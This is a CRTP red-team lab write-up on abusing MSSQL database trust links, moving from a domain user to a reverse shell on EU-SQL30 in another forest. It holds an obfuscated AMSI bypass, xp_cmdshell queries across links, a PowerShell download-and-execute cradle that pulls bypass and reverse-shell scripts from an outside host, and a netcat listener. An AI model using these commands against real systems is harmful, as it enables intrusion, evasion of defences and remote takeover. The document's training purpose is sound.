



CRTP - Certified Red Team Professional
Trust Links Abuse
What is Trust Links Abuse?
Trust Links Abuse refers to the exploitation of trust relationships within an organization to gain unauthorized access to sensitive information or systems.
This can be achieved by manipulating or compromising the trust relationships between individuals or entities within the organization.
How does it work?
1. Identifying Trust Relationships: The attacker identifies trust relationships within the organization, such as relationships between employees, contractors, or partners.
1. Compromising Trust: The attacker compromises the trust relationship by gaining access to sensitive information or systems, or by manipulating the relationship to gain unauthorized access.
1. Exploiting Trust: The attacker exploits the compromised trust relationship to gain access to sensitive information or systems, or to perform unauthorized actions.
For this lab, let’s try to get a reverse shell on a SQL server in EUROCORP forest by abusing database links from DCORP-MSSQL.
Let’s start with enumerating SQL servers in the domain and if studentx has privileges to connect to any of them. We can use PowerUpSQL module for that.
Since we will be doing the enumeration via PowerShell, let run InvisiShell first for Script Blocking bypass and also AMSI bypass.
RunWithRegistryNonAdmin.bat

AMSI Bypass
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )Let’s start with enumerating SQL servers in the domain and if our current compromised user has privileges to connect to any of them.
We can use PowerUpSQL module for that.
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
VERBOSE: dcorp-mgmt.dollarcorp.moneycorp.local,1433 : Connection Failed.
VERBOSE: dcorp-mgmt.dollarcorp.moneycorp.local : Connection Failed.
VERBOSE: dcorp-mssql.dollarcorp.moneycorp.local,1433 : Connection Success.
VERBOSE: dcorp-mssql.dollarcorp.moneycorp.local : Connection Success.
VERBOSE: dcorp-sql1.dollarcorp.moneycorp.local,1433 : Connection Failed.
VERBOSE: dcorp-sql1.dollarcorp.moneycorp.local : Connection Failed.
ComputerName : dcorp-mssql.dollarcorp.moneycorp.local
Instance : DCORP-MSSQL
DomainName : dcorp
ServiceProcessID : 2024
ServiceName : MSSQLSERVER
ServiceAccount : NT AUTHORITY\NETWORKSERVICE
AuthenticationMode : Windows and SQL Server Authentication
ForcedEncryption : 0
Clustered : No
SQLServerVersionNumber : 15.0.2000.5
SQLServerMajorVersion : 2019
SQLServerEdition : Developer Edition (64-bit)
SQLServerServicePack : RTM
OSArchitecture : X64
OsVersionNumber : SQL
Currentlogin : dcorp\student451
IsSysadmin : No
ActiveSessions : 1
ComputerName and Instance
DomainName
ServiceProcessID and ServiceName
ServiceAccount
AuthenticationMode
ForcedEncryption
Clustered
SQLServerVersionNumber, SQLServerMajorVersion, and SQLServerEdition
SQLServerServicePack
OSArchitecture and OsVersionNumber
Currentlogin and IsSysadmin
ActiveSessions
This output provides a comprehensive overview of the SQL Server instance, including its configuration, security settings, and current state.
The PowerUPSQL enumeration show us that we are able to connect to the MSSQL(DCORP-MSSQL) service running in dollarcorp.moneycorp.local domain.
By sing HeidiSQL client, we can login to DCORP-MSSQL using windows authentication of our current user..


Now that we were able to login to DCORP-MSSQL we can start making queries.
we can start by checking the version running this MSSQL, it’s always good to know what version we are working with.
Select @@version

The following command will enumerate the linked databases on DCORP-MSSQL.
Select * From master..sysservers;

Above we can see that DCORP-MSSQL database has a link to DCORP-SQL1 as well, let’s now do a further enumeration from DCORP-SQL1.
Select * From openquery("DCORP-SQL1", 'Select * From master..sysservers');

One thing we can do is to nest openquery within another openquery which leads us to DCORP-MGMT. So let’s continue…
select * from openquery("DCORP-SQL1",'select * from openquery("DCORP-MGMT",''select * from master..sysservers'')')

Now we can see that DCORP-MGMT has also a trust link to EU.SQL30, which is another database server on another root forest(eu.eurocorp.local).
Now that we have see how we can manually enumerate trust inside MSSQL database, let’s see an automated and fast way to enumerate theses trust links.
We can use PowerUPSQL module again.
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Verbose

Base on the output above from PowerUPSQL, we can see that we do have sysadmin in EU-SQL30.
From from here we have 2 ways, we can continue on making queries using the MSSQL client HeidiSQL client, or we can continue using PowerUPSQL modules.
For now let’s continue using PowerUPSQL module Get-SQLServerLinkCrawl.
Let’s enumerate and check If xp_cmdshell is enabled.
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "exec master..xp_cmdshell 'set username'"

Well the above screenshot shows us some interesting information… The query we did above was to check if it is possible to execute OS commands using linked databases.
We can see that when we check the CustomQuery parameters in all Instances, the only one that came up containing some information was the EUSQL30 instance(CustomQuery : {USERNAME=SYSTEM, }), meaning that we can execute OS commands using the trust links between instances.
We can get a Reverse Shell in this case. to achieve this task we will be using Invoke-PowerShellTcp.ps1 by modifying it and adding the following command on it:
Power -Reverse -IPAddress
Open Invoke-PowerShellTcpEx.ps1 in PowerShell ISE (Right click on it and click Edit).

Let’s try to execute a PowerShell download execute cradle to execute a PowerShell reverse shell on the EU-SQL30 instance.
We should not forget to start a listener on our machine.
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec masterxp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.51/sbloggingbypass.txt); iex (iwr -UseBasicParsing http://172.16.100.51/amsibypass.txt); iex (iwr -UseBasicParsing http://172.16.100.51/Invoke-PowerShellTcpEx.ps1)" '' -QueryTarget EU-SQL30
On our side we can simply start our listener.
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443

We can see above that we were able to abuse the trust link in DCORP-MSSQL all the way to EU-SQL30. from a simple Domain user to Enterprise Admin.